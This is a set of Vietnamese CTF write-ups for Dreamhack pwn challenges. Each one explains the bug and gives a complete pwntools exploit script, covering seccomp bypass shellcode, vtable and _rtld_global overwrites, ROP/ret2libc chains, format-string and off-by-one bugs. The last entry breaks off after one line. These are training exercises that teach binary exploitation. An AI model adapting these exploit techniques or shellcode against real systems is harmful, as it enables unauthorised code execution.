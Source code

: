 <details>
<summary>Bypass Seccomp-1 </summary>
- Đề cho ta 1 file source, 1 file binary và 1 file docker.
- Đầu tiên mở file source lên đọc thử : 

![](https://i.imgur.com/uBynSs8.png)

- Ta thấy chương trình cấp phát `0x1000` byte và sau đó chạy cái ta nhập, ngoài ra có hàm `sandbox` restrict syscall tới các hàm sau: open,execve,execveat,write
    
![](https://i.imgur.com/OVsocPa.png)

- Sau một hồi tìm hiểu, ta nhận thấy ta sẽ sài `openat` thay thế cho `open`, sendfile thay thế cho `read` và `write`. 

- Ta đọc manpage của `openat`. Ta thấy ta cần cung cấp ít nhất 3 arguments.
    
![](https://i.imgur.com/4I7WXsb.png)

- Đọc file docker thì ta thấy tại đường dẫn của file binary có file tên `flag`. Do đó ta cần truyền arguments như sau : `(AT_FDCWD,"flag",0)`. Trong đó `AT_FDCWD` cho `openat` biết đây là địa chỉ tương đối, tức mở file tên flag ở địa chỉ file binary đang chạy và nó là hằng số có giá trị là -100.

- Tiếp theo là `sendfile`, ta cần truyền arguments như sau `(1,fd,0,100)` tức in 100 byte từ file descriptor `fd` sang `stdout` bắt đầu từ vị trí 0.

- Kế tiếp ta viết script:
```python
from pwn import *
exe = ELF("bypass_syscall")
#p = process(exe.path)
p = remote("host2.dreamhack.games",13231)
context.update(arch='amd64',os='linux')

payload = asm(shellcraft.openat(-100,"flag",0))
payload += asm(shellcraft.sendfile(1,'rax',0,100))
#print(hexdump(payload))
p.sendline(payload+b'\n')
p.interactive()
```
- Ở đây file descriptor thay thế bằng `rax` vì khi chạy `openat` nó sẽ đưa `fd` vào `rax`
</details>

<details>
<summary>cpp-string </summary>
    
- Bài cho ta một file source và 1 file binary
- Đầu tiên ta mở file source lên xem
    
![](https://i.imgur.com/n2T1uTJ.png)

- Ta nhận thấy chương trình hoạt động như sau: 
nhấn 1 để load flag và đọc thông tin từ 1 file, nhấn 2 để ghi vào file đó. Nhấn 3 in ra `readbuffer`
- Bài này nhìn qua thì hướng khai thác là leak được flag. Vậy ta sẽ phân tích thử các hàm được gọi, trong đó có 2 hàm `read_file` và `write_file` khá nghi ngờ.
- Hàm `read_file` thì đọc 64 byte từ file `test` vào `readbuffer` , không có gì nguy hiểm cả
    
![](https://i.imgur.com/6aUCgEK.png)

- Ngược lại hàm `write_file` nhập một string vào `writebuffer` sau đó lấy 64 byte trong string đó chuyển thành C-style string và ghi vào file test. Ở đây ta lưu ý cách biểu diễn sâu ở C và C++ khác nhau, C thì có null terminator ở cuối còn C++ implement bằng cách lưu độ dài sâu nhập. Do đó nếu ta nhập hơn 64 byte vào thì khi gọi hàm `read_file` thì `readbuffer` (khai báo kiểu string trong C) sẽ không có null terminator dẫn đến leak flag
    
![](https://i.imgur.com/3RdkEze.png)
    
- Vậy ta cần nhập quá 64 byte -> ghi vào `readbuffer` -> in flag
- Test thử ý tưởng trên thì ta có flag
    
![](https://i.imgur.com/8hVPW7f.png)

</details>

<details>
<summary>iofile_vtable </summary>
    
- Bài cho ta file source và 1 file binary
- Đầu tiên ta mở file source lên đọc thử
- Ta thấy có hàm `get_shell` và bài cho ta ghi vào `stderr+1` 8 byte
- Vậy để biết `sttder+1` là gì, ở đâu thì ta debug.
- Ta được output như sau : 
    
![](https://i.imgur.com/8xFGkxi.png)
    
- Để hiểu rõ hơn ở đâu ta coi thử `_IO_2_1_stderr_`
    
![](https://i.imgur.com/h9ASjas.png)

- Ta nhận thấy ta được ghi vào địa chỉ `vtable`.
- Sau một hồi research ta được như sau: vtable sẽ chứa một loạt các địa chỉ của các hàm được thực thi, ngoài ra còn có hàm `fwrite` khi disassembly ra sẽ có lệnh `call QWORD PTR [r15+0x38]`. Trong đó `r15` là địa chỉ của `vtable` mà ta được phép overwrite
    
![](https://i.imgur.com/2YGhtbN.png)

![](https://i.imgur.com/TN2Dow1.png)

- Xem kỹ lại chương trình thì ta thấy như sau: đề bắt ta nhập biến `name` gồm 8 byte. Ngoài ra không hề có hàm `fwrite`. Nhưng ta vào lại gdb thì thấy khi disass main ra thì lại có hàm fwrite. Vậy chắc khi compile thì hàm `fprintf` được implement bằng lower-level function như `fwrite`
    
![](https://i.imgur.com/dXBDzaK.png)

- Tiếp theo ta `checksec` thì thấy NO PIE, do đó ta có thể lấy được địa chỉ hàm `get_shell` và địa chỉ biến `name`.
    
![](https://i.imgur.com/hQdPcu7.png)

- Vậy ta có ý tưởng như sau: Nhập vào biến `name` địa chỉ của của hàm `get_shell` sau đó ghi vào vtable địa chỉ của biến `name-0x38`(để khi cộng lại ra đúng địa chỉ name) rồi nhập 2 để gọi hàm `fwrite` đã được trỏ tới hàm `get_shell`

- Ta viết script thực hiện ý tưởng trên:
```python
from pwn import *
exe = ELF("iofile_vtable")
#p = process(exe.path)
p = remote("host3.dreamhack.games",12716)
'''
gdb.attach(p,
"""
b* main + 228
c
""")
input()
'''
p.sendlineafter(b'what is your name: ',p64(exe.sym['get_shell']))
p.sendlineafter(b'> ',b'4')
p.sendlineafter(b'change: ',p64(0x6010d0-0x38))
p.sendlineafter(b'> ',b'2')
p.interactive()
```
- Chạy thử và ta có được shell
</details>

<details>
<summary>Overwrite _rtld_global</summary>

- Bài cho ta file libc,fake flag,file source , file binary và file Docker
- Đầu tiên ta mở source lên xem thử thì thấy giống bài rtld trước kia, ngoại trừ không có hàm `get_shell`
    
![](https://i.imgur.com/FBrTDUc.png)

- Checksec thì thấy full giáp nên hướng khai thác vẫn là overwrite `_rtld_global`, hàm được gọi khi chương trình kết thúc.

![](https://i.imgur.com/OXhLPAp.png)

- Bài leak libc cho ta sẵn nên mình sẽ làm theo hướng overwrite `_rtld_global._dl_load_lock` thành "\bin\sh\x00" do đây là nơi chứa argument của hàm `_rtld_global._dl_rtld_lock_recursive` (hàm này OW thành `system`)

- Vậy ta leak libc rồi tính offset như bình thường là được.
- Script : 
```python
from pwn import *
exe = ELF("ow_rtld_patched")
libc = ELF("libc.so.6")

#p = process(exe.path)
p=remote("host3.dreamhack.games",17022)
'''
gdb.attach(p,
"""
b* main+198
c
""")
input()
'''
p.recvuntil(b'stdout: ')
leak = int(p.recvline()[:-1].decode(),16)
libc.address = leak - 4114272
print("leak = ",hex(libc.address))

rtld_lock_recursive = libc.address + 6397792
load_lock = libc.address + 6396264

p.sendlineafter(b'> ',b'1')
p.sendlineafter(b'addr: ',str(rtld_lock_recursive).encode())
p.sendlineafter(b'data: ',str(libc.sym['system']).encode())

p.sendlineafter(b'> ',b'1')
p.sendlineafter(b'addr: ',str(load_lock).encode())
p.sendlineafter(b'data: ',str(u64('/bin/sh\x00')))

p.sendlineafter(b'> ',b'2')
p.interactive()

```
- Chạy script trên và ta có được shell
</details>

<details>
<summary>__environ</summary>

- Bài cho ta file docker, file source, file binary.
- Đầu tiên ta mở source lên xem thì thấy code sẽ leak libc cho ta và in strings của một địa chỉ bất kỳ

![](https://i.imgur.com/qWV1UzK.png)

- Ta cũng thấy code cũng load file flag vào stack cho ta. Do đó ở đây ta cần tìm ra địa chỉ stack. Theo dreamhack thì mình sẽ lợi dụng hàm `environ` vì hàm này chứa địa chỉ `stack`. Vậy khi ta in được địa chỉ này ra thì sẽ tính được offset tới flag để leak.

- Tiếp theo ta thấy đề không cho ta file libc nên không thể sài libc của mình. Do đó mình kết nối tới server để tìm bản libc thích hợp

![](https://i.imgur.com/wKs2PNn.png)

- Ở đây ra một loạt libc. Do đó phải thử từng cái để biết cái nào là của server. Nhưng mình để ý thì thấy ở đây có phiên bản 2.27, tức trùng với file libc của bài `Overwrite _rtld_global` mới làm nên mình lấy nó test đầu tiên cho nhanh, không được tính tiếp.

![](https://i.imgur.com/B1jAliW.png)

- Vậy đầu tiên ta leak libc tính offset bình thường, sau đó tính offset của `environ` tới libc 
    
![](https://i.imgur.com/eg1eWIy.png)

![](https://i.imgur.com/vTzVqff.png)

- Sau đó tính offset stack leak được tới flag. 
    
![](https://i.imgur.com/4IiCClw.png)

- Ở đây offset ban đầu ta tính ra sai, sau một hồi debug thì offset cần tìm là `5432`
- Vậy cuối cùng ta viết script:
```python
from pwn import *
exe = ELF("environ_exercise_patched")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
#p=remote("host3.dreamhack.games",11194)
p = process(exe.path)
gdb.attach(p,
"""
b*main+73
c
""")
input()

p.recvuntil(b'stdout: ')
leak = int(p.recvline()[:-1].decode(),16)
libc.address = leak -4114272
print("leak = ",hex(libc.address))

p.sendlineafter(b'> ',b'1')
p.sendlineafter(b'Addr: ',str(libc.address + 0x3ee098 ))
stack = u64(p.recvn(6) + b'\x00\x00')

print('stack: ',hex(stack))
p.sendlineafter(b'> ',b'1')
p.sendlineafter(b'Addr: ',str(stack-5432))
p.interactive()
```
- Chạy script trên ta sẽ có được shell.
</details>

<details>
<summary>memory_leakage </summary>
	
- Bài cho ta 1 file source và 1 file binary
- Đầu tiên mở source lên thì thấy `name` khai báo 16 byte mà khúc dưới nhập tên đủ 16 byte luôn. Do đó sẽ thiếu byte để encode null terminator => lỗi off by one. Ngoài ra cũng có biến `age` 4 byte do kiểu int
	
![](https://i.imgur.com/yWNAPgl.png)

![](https://i.imgur.com/FgHs49X.png)

- Ở khúc dưới sẽ có chỗ cho ta in tên và tuổi. Vậy ta sẽ debug xem thử thứ tự các biến thế nào để coi leak được hay không

![](https://i.imgur.com/V6GQUJp.png)

- Debug thì thấy thứ tự các biến là name -> age -> flag. Do đó ta chỉ cần cho biến age là số nào đó đủ 4 byte nào đó khác byte `/x00` là lấy được flag

- Tiếp theo kết nối với server. Đầu tiên nhập 3 để load flag. Tiếp theo chọn 1 rồi nhập tên đủ 16 byte, name đủ 4 byte khác byte `/x00`. Cuối cùng nhập 2 để leak.

![](https://i.imgur.com/ZxSGGMB.png)

</details>

<details>
<summary>rtld </summary>

- Đề cho ta file source, file libc và file binary
- Đầu tiên mở file source lên xem thử. Có hàm `get_shell` cho ta shell, ngoài ra hàm `main` leak cho ta libc và cho ta điều khiển dữ liệu của 1 địa chỉ bất kỳ.

![](https://i.imgur.com/skHYxHk.png)

- Tiếp theo ta `checksec`. Ta thấy PIE enable nên hàm `get_shell` coi như phế vì không leak được. Do đó ở đây ta sẽ sài `one_gadget`

![](https://i.imgur.com/i4KHhC9.png)

- Đề leak cho ta libc vì vậy ta cần overwrite 1 địa chỉ nào đó ở libc mà chương trình có call tới thành `one_gadget`. Đề không leak exe để tính base nên ở đây khó overwrite `.got.plt`
    
- Do đó ở đây mình cần overwrite địa chỉ libc ở chỗ mình tô vàng. Ở đây theo dreamhack thì mình cần overwrite `_rtld_global`. Đây chính là địa chỉ khi chương trình exit sẽ gọi tới.
![](https://i.imgur.com/KMu39eS.png)

- Tiếp theo mình gdb để tính offset thử.

![](https://i.imgur.com/7j34x4f.png)

- Tiếp theo sài `one_gadget`. Ở đây có địa chỉ cuối mình sài được

![](https://i.imgur.com/L0p36Ds.png)

- Cuối cùng viết script:
```python
from pwn import *
exe = ELF("rtld_patched")
libc = ELF("libc.so.6")
p = remote("host2.dreamhack.games",21781)
#p = process(exe.path)
p.recvuntil(b'stdout: ')
leak =int(p.recvline()[:-1] ,16)
libc.address = leak - 3954208
rtld = libc.address + 6229832
print(hex(libc.address))
print(hex(rtld))
p.sendlineafter(b'addr: ',str(rtld).encode() )
p.sendlineafter(b'value: ',str(libc.address + 0xf1147).encode())
p.interactive()
```
- Chạy thử và ta có flag.
</details>

<details>
<summary>seccomp </summary>
	
- Bài cho ta file source và file binary
- Đầu tiên mở source lên đọc. Tóm tắt thì bài cho ta nhập shellcode để thực thi nhưng sẽ giới hạn không cho ta syscall. Ngoài ra chương trình còn cho ta overwrite 1 địa chỉ bất kỳ.

![](https://i.imgur.com/try1jjo.png)

- Ta lên hàm syscall_filter để đọc thử
    
![](https://i.imgur.com/vXU0sVo.png)

- Ở đây mặc định chương trình sẽ set seccomp mặc định là `SECCOMP_MODE_STRICT`. Mode này chỉ cho phép syscall các hàm sau :  `read`, `write`, `_exit`.
- Ta phân tích tiếp filter của chương trình: Nó chỉ check xem nếu shellcode đang thực hiện có phải của architecture x86-64 hay không, nếu phải thì lấy syscall number, không phải thì terminate bằng sigsegv.
- Tiếp theo ta `checksec`.
![](https://i.imgur.com/pW9sQm7.png)

- Ta thấy PIE disable, mà chương trình mặc định sẽ gọi `SECCOMP_MODE_STRICT`, do đó ta tìm cách overwrite `mode` thành `SECCOMP_MODE` nào đó mà "nhẹ hơn".
- Đọc doc của linux kernel thì thấy có 2 mode mà ta có thể sài là 0 và 2. 0 tức disable luôn còn 2 là sài cái filter ở trên mình phân tích. Mà cái filter đó không có gì nguy hiểm tới shellcode của mình hết nên mình thích overwrite mode bằng 0 hay 2 là tuỳ. Ở đây mình overwrite thành 2

![](https://i.imgur.com/in6Xdk3.png)

- Tiếp theo ida tìm địa chỉ của `mode`. Ta được địa chỉ là `0x0000000000602090` tức `6299792`
![](https://i.imgur.com/WF8Of4v.png)

- Cuối cùng viết script. Đầu tiên ta overwrite `mode` thành 2, sau đó nhập shellcode cuối cùng thực thi 
```python
from pwn import *
exe = ELF("seccomp")
#p=remote("host3.dreamhack.games",21718)
p = process(exe.path)

context.update(arch='amd64',os='linux')
shell = shellcraft.sh()

p.sendlineafter(b'> ',b'3')
p.sendlineafter(b'addr: ',b'6299792')
p.sendlineafter(b'value: ',b'2')

p.sendlineafter(b'> ',b'1')
p.sendlineafter(b'shellcode: ',asm(shell))

p.sendlineafter(b'> ',b'2')
p.interactive()
```
</details>

<details>	
<summary>Welcome </summary>
	
- Ta chỉ cần kết nối và lấy flag
    
![](https://i.imgur.com/iDQVZs4.png)

</details>

<details>
<summary>basic_exploitation_000 </summary>
	
- Đề cho ta một file source và 1 file binary
- Đầu tiên mở source xem thì thấy bị lỗi buffer overflow ở `scanf`
    
![](https://i.imgur.com/n5GB0GC.png)

- Do tắt hết các chế độ bảo vệ và trong code không có chỗ nào để lấy flag nên ta sẽ làm theo dạng ret2shell code
    
![](https://i.imgur.com/YEmF9r9.png)
    
- `scanf` không thể đọc các byte `\x09, \x0a, \x0b, \x0c, \x0d, \x20` do đó cần chọn shell cẩn thận

- Đây là shell tìm được
    
![](https://i.imgur.com/6JHxzSU.png)

- Kế tiếp ta tìm padding để overwrite ret address. Nếu tìm đúng thì ta được code như sau:
```python
from pwn import *
p = remote("host3.dreamhack.games",19166)
#p = process("./basic_exploitation_000")
p.recvuntil(b'(')
leak = int(p.recv(10).decode(),16)
print(hex(leak))
shell = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80"
payload = shell
payload += payload.rjust(132-len(shell), b"\x90") +  p32(leak)
p.sendlineafter(b")\n", payload)
p.interactive()
```
- Chạy script trên ta sẽ có được shell

</details>

<details>
<summary>basic_exploitation_001 </summary>
	
- Đề cho ta một file source và 1 file binary

![](https://i.imgur.com/YK5Xv37.png)

- Nhìn code thì mục đích ta là lợi dụng buffer overflow để chuyển ret qua `read_flag`
    
- Do đó ta cần tìm padding rồi overwrite ret address

- Script : 
```python
from pwn import *
exe = ELF("./basic_exploitation_001")
p= remote("host3.dreamhack.games", 1576)
#p= process(exe.path)
payload = b'A'*132 + p32(exe.sym['read_flag'])
p.sendline(payload)
p.interactive()
```
- Chạy script trên ta sẽ có được flag
</details>

<details>
<summary>shell_basic </summary>
	
- Đề cho ta một file source và 1 file binary
    
- Đọc code thì thấy chương trình sẽ chạy shellcode của ta nhập vào, và nó muốn ta viết asm để write, read, không sài `execve`

![](https://i.imgur.com/gtb4Dui.png)

- Đề cho ta sẵn tên flag và trong pwntool có sẵn thư viện để cat luôn nên sài cho nhanh
    
![](https://i.imgur.com/liAisvR.png)
    
- Script: 
```python
from pwn import *
context.arch='amd64'
p=remote("host1.dreamhack.games",15482)
p.sendafter(":",asm(shellcraft.cat("/home/shell_basic/flag_name_is_loooooong")))
p.interactive()
```

- Chạy script trên ta sẽ có được flag
</details>

<details>
<summary>Return Address Overwrite </summary>
	
- Đề cho ta một file source và 1 file binary
- Đọc code thì ta cần buffer overflow ở `scanf` để ret qua `get_shell`
    
![](https://i.imgur.com/FoP72KD.png)
    
- checksec thì thấy canary tắt nên bài này tìm padding overwrite bình thường là ra

![](https://i.imgur.com/N6HDEQj.png)

- Do mấy bài này dạng cơ bản nên mình không phân tích chi tiết

- Script : 
```python=
from pwn import *
exe = ELF("./rao")
p = remote("host3.dreamhack.games", 12411)
payload = b'A'*56 + p64(exe.sym['get_shell'])
p.sendlineafter(b"Input: ", payload)
p.interactive()
```
- Chạy script trên ta sẽ lấy được shell
</details>

<details>
<summary>basic_exploitation_003 </summary>
	
- Đề cho ta một file source và 1 file binary
- Đọc code thì nhận thấy có hàm `sprintf` bị lỗi format string. Hàm này copy `heap_buf` vào `stack_buf` , do trong hàm này không check có format specifier nào không nên bị lỗi này.
    
![](https://i.imgur.com/ZUdyNFB.png)

- Bài này ta có thể lợi dụng fmt để buffer overflow stack_buf hoặc sài fmt ghi địa chỉ nào đó luôn. Ở đây mình sài cách đầu tiên để overwrite ret address của main.
    
![](https://i.imgur.com/QYR5ZTb.png)

- Trừ 2 giá trị tô đỏ trên ta được offset là 256

- Script:
```python
from pwn import *

exe = ELF("basic_exploitation_003")
#p = remote("host2.dreamhack.games",13411)
p = process(exe.path)
p.sendline(b'%156c'+p32(exe.sym['get_shell']))
p.interactive()
```

</details>

<details>
<summary>out_of_bound </summary>
	
- Đề cho ta một file source và 1 file binary
    
![](https://i.imgur.com/1a2kgkJ.png)

- Nhận thấy chương trình không check bound của idx nên sẽ bị lỗi out of bound cho ta thực hiện câu lệnh bất kỳ ở hàm `system`

- Ngoài ra đề cũng kêu nhập tên. Do đó mục đích ta là làm system gọi tới địa trỉ trỏ tới string `/bin/sh`. Ta sẽ làm bằng cách lợi dụng nhập tên ở name

- Do đó ta cần làm command trỏ tới name bằng cách tính offset của id: `0x0804A0AC = 4*id + 0x0804A060`. Ta được id là 19.

![](https://i.imgur.com/eGCzO2q.png)


- Phân tích ta nhận thấy khi trỏ tới name ta cần input thêm một địa chỉ trỏ tới chuỗi `/bin/sh` rồi mới tới `/bin/sh`

- Script:
```python
from pwn import *
p=remote("host3.dreamhack.games",9645)
#p =process("./out_of_bound")
payload = p32(0x0804A0AC+8)+b'\x00'*4+b'/bin/sh\x00'
p.sendafter(b'Admin name: ',payload)
p.sendafter(b'What do you want?: ',b'19')
p.interactive()
```
- Chạy script trên ta sẽ có được shell
</details>

<details>
<summary>Return to Shellcode </summary>
	
- Đề cho ta một file source và 1 file binary
    
![](https://i.imgur.com/xUqhvgK.png)

- Đọc code thì thấy có thể sẽ leak canary và bị lỗi ở buffer overflow ở hàm `gets` 

- Checksec thì nhận thấy `NX disable` và đây là file x64 nên ta giải theo ret2shellcode x64
    
![](https://i.imgur.com/MWLEtJY.png)

- Đầu tiên là leak canary, ta sẽ lợi dụng buffer overflow rồi tìm padding tới canary leak. Do canary có byte 00 đầu làm ảnh hưởng tới printf nên ta sẽ leak lố qua 1 byte

![](https://i.imgur.com/K9pMdma.png)

- Ta sẽ tìm được offset là 0x61 byte. Vậy thì đầu tiên ta sẽ leak ra canary rồi sau đó overwrite ret của `main` qua address `buf` để thực hiện shellcode

- Script : 
```python
from pwn import *
p = process("./r2s")
context.arch = "amd64"
p.recvuntil("buf: ")
buf = int(p.recvline()[:-1], 16)
p.recvuntil("$rbp: ")
buflen = int(p.recvline().split()[0])
buf_cana = buflen - 8

payload = b"A"*(buf_cana + 1)
p.sendafter("Input:", payload)
p.recvuntil(payload)
leak = u64(b"\x00"+p.recvn(7))

shell = asm(shellcraft.sh())
payload = shell.ljust(buf_cana, b"A") + p64(leak) + b"A"*0x8 + p64(buf)

p.sendlineafter("Input:", payload)
p.interactive()
```
</details>

<details>
<summary>basic_rop_x86 </summary>
	
- Đề cho ta 1 file source và file binary

![](https://i.imgur.com/EGKSycy.png)

- Đọc code thì nhận thấy có lỗi buffer overflow ở hàm `read`
    
- Tiếp theo ta `checksec` thì thấy dựa vào tên bài và lỗi này thì chắc chắn ret2libc x86 =)) 

![](https://i.imgur.com/1iyqyyC.png)

- Vậy thì lần đầu ta sẽ leak libc -> quay lại main -> overwrite ret main thành `system('/bin/sh')`

- Để leak libc ta overwrite ret của main theo padding sau để theo calling convention của x86 :`padding + đc plt put + ret main + đc got cần leak` (do arguments push lên stack nên không cần kiếm rop pop rdi...)

- Sau khi có libc ta làm tương tự payload sau để lấy shell: `padding + đc system + gì cũng được + đc binsh`
    
- Script : 
```python
from pwn import *
exe = ELF("basic_rop_x86_patched")
libc = ELF("libc.so.6")
p = remote("host3.dreamhack.games",16434)

payload = b'a'*72 + p32(exe.plt['puts']) + p32(exe.sym['main'])+ p32(exe.got['read'])
p.send(payload)

p.recvuntil(b'a'*64)
read_leak = u32(p.recv(4))
print("leak read : ",hex(read_leak))

libc.address = read_leak-869200
#binsh = libc.address + 1806581
binsh = next(libc.search(b"/bin/sh"))
payload = b'a'*72 + p32(libc.sym['system']) + p32(binsh)+ p32(binsh)
p.send(payload)
p.interactive()
```
</details>

<details>
<summary>basic_rop_x64 </summary>
	
- Bài cho ta 1 file source và 1 file binary
    
![](https://i.imgur.com/QYZZRyB.png)

- Code với checksec y chang phần trước ngoại trừ đây là file x64 thôi.
- Do đó ta làm theo dạng ret2libc x64
- Dạng này thì leak libc -> về `main` -> thực thi `system` y chang phần trước ngoại trừ ta cần kiếm `pop rdi ret` gadget và thích thì kiếm `one_gadget` để lấy shell cho nhanh.
- Script : 
```python
from pwn import *
exe = ELF("basic_rop_x64_patched")
libc = ELF("libc.so.6")
p = remote("host3.dreamhack.games",18845)
pop_rdi = 0x400883
payload = b'A' * 72 + p64(pop_rdi) + p64(exe.got['puts']) + p64(exe.plt['puts']) +  p64(exe.sym['main'])
p.sendline(payload)

p.recvuntil(b'A' * 64)
leak_libc = u64(p.recvline(keepends=False) + b"\x00\x00")
log.info("leak libc: " + hex(leak_libc))

libc.address = leak_libc - 456336

payload = b'A'* 72 + p64(libc.address + 0x45216)
p.sendline(payload)
p.interactive()
```
</details>

<details>
<summary>sint </summary>
	
- Bài cho ta 1 file source và 1 file binary
    
![](https://i.imgur.com/MT2hly4.png)

- Đọc code thì thấy `size` phải trong khoảng [0,256], sau đó sẽ nhập `size-1` số vào `buf`

- Đọc manpage `read` thì nhận thấy `size-1` đó phải là số dương mà nếu ta nhập 0 sẽ dẫn đến `size-1<0` làm read nhận dạng số âm thành số dương. Do đó có lỗi bufer overflow ở `read` nếu ta nhập 0
                                                                                                     
![](https://i.imgur.com/GRBZ6j3.png)

- Ngoài ra chương trình cũng có hàm `get_shell` để lấy shell. Do đó ta cần buffer overflow để ret2get_shell 
                                                                                                       - Script:
```python=
from pwn import *
exe = ELF("sint")
p = remote("host3.dreamhack.games",12276)
#p = process(exe.path)
p.sendlineafter(b'Size: ',b'0')
p.sendlineafter(b'Data: ',b'a'*260+p32(exe.sym['get_shell']))
p.interactive()
```    
</details>

<details>
<summary>Return to Library</summary>
	
- Bài cho ta 1 file source và 1 file binary
    
- Đọc code thì thấy ta cần leak canary rồi overwrite ret address do có lỗi buffer overflow

![](https://i.imgur.com/4rmzscx.png)

- Đọc thì bài này là bài kết hợp ret2libc x64 với ret2shellcode ở trên.

- Ở đây ta không cần leak libc vì No PIE

![](https://i.imgur.com/90ushGF.png)

- Dạng cơ bản nên làm `pop rdi, ret` bình thường thôi. Mà ở đây mình chain thêm ret vì lúc đầu bị lỗi xmm

- Script : 
```python
p.sendafter('Buf: ',payload)
p.recvn(61)
canary = u64(p.recvn(8)) - 0x41

pop_rdi = 0x00400853
ret = 0x400285
binsh = 0x600874
system = 0x4005d0
payload = 'A'*0x38 + p64(canary) + 'A'*0x8
payload += p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
p.send(payload)
p.interactive()
```
</details>
    
<details>
<summary>one_shot </summary>
	
- Bài cho ta một file binary, 1 file source, 1 file libc

- Đọc file source thì thấy đề sẽ leak libc và bị lỗi buffer overflow ở `read` 

![](https://i.imgur.com/6futpAZ.png)

- Bài không có canary nên overflow bình thường. Ngoài ra code không có chỗ để leak nên bài này ta làm ret2libc.
![](https://i.imgur.com/qTICEDD.png)

- Đề cho overflow 46 byte mà nếu tính padding + chain `pop rdi` sẽ không đủ do đó bài này muốn ta sài `one_gadget`

- Sài `one_gadget` ta được như sau:

![](https://i.imgur.com/EEjsqdh.png)

- Rồi thì ret2libc bình thường thôi.
- Script:

```python
from pwn import *
exe = ELF("oneshot_patched")
libc= ELF("libc.so.6")
#p = process(exe.path)
p= remote("host3.dreamhack.games",20854)
p.recvuntil(b'stdout: ')
std = int(p.recvline(keepends=False).decode(), 16)
libc.address = std - 3954208
payload = b'A'*24 + p64(0) + b'A'*8 + p64(libc.address+0x45216)
p.sendlineafter(b'MSG: ',payload)
p.interactive()
```
</details>
    
<details>
<summary>off_by_one_001 </summary>
	
- Đề cho ta 1 file source và 1 file binary    

- Đọc code thì thấy nếu ta làm cho `age = 0` thì có shell

![](https://i.imgur.com/sMZUFaw.png)

- Đọc hàm `read_str` thì thấy nếu ta nhập đủ 20 ký tự thì sẽ gán index thứ 20 là `\0`. Nhưng thực tế thì `ptr` khai báo là [20] tức từ index 0 ->19. Nên ở đây có lỗi off by one và vô tình ghi vào age và có shell
    
![](https://i.imgur.com/qLTMUax.png)

- Nhập thử và được shell:
    
![](https://i.imgur.com/4E8t67A.png)

</details>
    
<details>
<summary>hook </summary>
	
- Bài cho ta 1 file source, file binary và file libc.    

- Đọc source thì thấy chỗ `*(long *)*ptr = *(ptr+1);` rất đáng ngờ vì nó cho phép ta ghi. Giả sử ta có mảng a[2]={1,2} thì phép toán trên trên tương tự gán a[0]=a[1]. 

![](https://i.imgur.com/BRTXl9y.png)

- Do đó ta cần chọn địa chỉ cần ghi và ở đây là `free`. Ta muốn ghi `free` thành `one_gadget` để lấy shell. 
- Đề leak sẵn cho ta libc, one_gadget thì ta chọn từng cái, cái nào được thì sài.
    
![](https://i.imgur.com/VQL4Gb1.png)

- Chỗ `size` ta nhập số bất kỳ miễn sau đủ lớn để chứa 2 địa chỉ. Còn `data` thì ta input payload để gán địa chỉ `hook` thành địa chỉ `one_gadget`
- Script : 
```python
from pwn import *
exe = ELF("hook_patched")
libc = ELF("libc.so.6")
#p = process(exe.path)
p = remote("host3.dreamhack.games",9920)
p.recvuntil("stdout: ")
stdout = int(p.recvline()[:-1], 16)
libc.address = stdout - 3954208
print(hex(libc.symbols["__free_hook"]))
p.sendlineafter(b'Size: ',b'100')
payload = p64(libc.symbols["__free_hook"]) + p64(libc.address+ 0x4526a)
p.sendlineafter(b'Data: ',payload)
p.interactive()
```

- Ở đây ta sài `__free_hook` vì nó chứa địa chỉ thực thi của `hook` 
- Chạy script trên ta sẽ có shell
</details>

<details>
<summary>rop </summary>
	
- Đề cho ta file source, file libc,file docker,file binary

- Đầu tiên ta đọc source thì thấy cũng giống mấy bài rop trên thôi =)). Bắt leak canary rồi ret2libc

![](https://i.imgur.com/VZBcygu.png)

- Vậy thì ta làm y chang bài trên là được.
- Script : 
```python
from pwn import *

exe=ELF("rop_patched")
libc = ELF("libc.so.6")

#p=process(exe.path)
p = remote("host3.dreamhack.games",17896)

'''
gdb.attach(p,
"""
b*main
c
""")
input()
'''
buf = b"A"*0x39
p.sendafter("Buf: ", buf)
p.recvuntil(buf)
cnry = u64(b"\x00"+p.recvn(7))

pop_rdi_ret = 0x00000000004007f3
payload = b'A'*56 + p64(cnry)+ b'A'*8
payload += p64(pop_rdi_ret) + p64(exe.got['read']) + p64(exe.plt['puts']) + p64(exe.sym['main'])

p.sendafter("Buf: ",payload)

leak = u64(p.recvn(6)+b'\x00\x00')
print(hex(leak))
libc.address =  leak - libc.sym['read']
print("libc base : ",hex(libc.address))
print("libc system " ,hex(libc.sym['system']))

p.sendafter("Buf: ",b'a')

payload = b'A'*56 + p64(cnry)+ b'A'*8
payload += p64(0x000000000040055e) + p64(pop_rdi_ret) + p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym['system'])
p.sendafter("Buf: ",payload)
p.interactive()
```
</details>

<details>
<summary>off_by_one_000</summary>
	
- Đề cho ta 1 file source và 1 file binary
- Đọc file source thì thấy có lỗi off by one ở hàm `strcpy` do biến `cp_name` max là 256 ký tự (bao gồm null byte), khi ta input max 256 ký tự thì sẽ overwrite 1 byte qua `real_name`. Ngoài ra có hàm `get_shell` cho ta shell
- Để coi sự ảnh hưởng của 1 byte null đó ta sẽ debug.
    
![](https://i.imgur.com/7YBUhDZ.png)

- Ở đây trước và sau nhận thấy byte cuối của epb bị overwrite thành 00
- Khi ret address của main lúc này thành `0xffffd004` trỏ về đâu đó giữa chuỗi mình nhập vào
    
![](https://i.imgur.com/TzxgygT.png)

- Do đó khi bị off by one nó sẽ trỏ về giữa stack
    
![](https://i.imgur.com/qpkzABd.png)

- offset là 20 chia hết cho 4 vậy thì đỡ tính toán ta gửi payload là địa chỉ của get_shell (256/4) lần (do địa chỉ get_shell gồm 4 số).
- Script : 
```python
from pwn import *
exe = ELF("off_by_one_000")
p = remote("host3.dreamhack.games",15154)
#p = process(exe.path)
p.sendafter(b'Name: ',p32(exe.sym['get_shell'])*64)
p.interactive()
```
</details>
    
<details>
<summary>cmd_center </summary>
	
- Bài cho ta 1 file binary và 1 file source
    
- Đọc source thì thấy có lỗi buffer overflow ở `read`
![](https://i.imgur.com/D1zAKwq.png)

